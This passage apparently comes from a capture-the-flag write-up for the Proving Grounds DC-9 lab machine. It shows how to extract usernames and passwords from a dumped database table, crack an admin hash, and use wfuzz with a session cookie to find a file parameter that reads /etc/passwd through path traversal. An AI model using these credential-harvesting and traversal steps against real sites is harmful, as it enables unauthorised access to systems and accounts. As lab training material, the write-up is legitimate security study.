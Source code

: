 Add the _users_ table output to a _creds_ file and cut the usernames and save to a _users_ file.

```bash

# Cut the username column from the creds table
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ cat creds | cut -d "|" -f6

```

Now cut the passwords from _creds_ and save to a _pass_ file.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ cat creds | cut -d "|" -f4

```

Crack the admin hash that was provided in the initial _sqlmap_ output and add the the top of the _pass_ file.

![crackstation](../../../assets/images/ctfs/proving_grounds/dc-9/crackstation.png)

Now we can logon to the site as _admin_.

We land on _welecom.php_ and there is a message at the bottom of the screen "File does not exist".

### Parameter Discovery with WFUZZ

We will do some fuzzing against the site.

First we need to get the session ID from Burp.

![burp2](../../../assets/images/ctfs/proving_grounds/dc-9/burp2.png)

Now we can run WFUZZ against the _/welcome.php_ page with the _PHPSESSID_ parameter and using \*--hh 963" to ignore output that is 963 bytes.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404 --hh 963 -b "PHPSESSID=3f7m38o92mpldiuu4mug1f18t0" "http://192.168.160.209/welcome.php?FUZZ=../../../../../../../etc/passwd"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.160.209/welcome.php?FUZZ=../../../../../../../etc/passwd
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000002206:   200        85 L     150 W      3316 Ch     "file"

Total time: 0
Processed Requests: 3452
Filtered Requests: 3451
Requests/sec.: 0

```
